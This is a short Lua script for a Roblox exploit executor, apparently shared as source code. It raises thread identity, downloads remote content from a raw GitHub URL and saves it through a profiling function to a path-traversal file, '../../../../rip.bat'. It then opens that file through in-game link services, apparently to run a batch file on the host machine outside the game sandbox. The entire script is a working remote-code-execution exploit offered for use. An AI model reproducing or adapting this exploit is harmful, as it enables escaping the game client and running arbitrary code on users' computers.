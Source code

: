 if setthreadidentity then
	setthreadidentity(6)
elseif setidentity then
	setidentity(6)
else
	rconsoleprint("noob")
	return
end

local LinkingService = cloneref(Game.service(Game, "LinkingService"))
local StartPageService = cloneref(Game.service(Game, "StartPageService"))
local ScriptContext = cloneref(Game.service(Game, "ScriptContext"))

local scriptContent = Game:HttpGet("https://raw.githubusercontent.com/watameln/VirusTotalBot/refs/heads/master/VirusTotalBot/source/src/main/java/maven/vtmaven/main.java")

local SaveScriptProfilingData = clonefunction(ScriptContext.SaveScriptProfilingData)

local OpenUrl = clonefunction(LinkingService.OpenUrl)
local openUrl = clonefunction(StartPageService.openLink)

local payload = SaveScriptProfilingData(ScriptContext, scriptContent, "../../../../rip.bat")
pcall(OpenUrl, LinkingService, payload)
pcall(openUrl, StartPageService, payload)
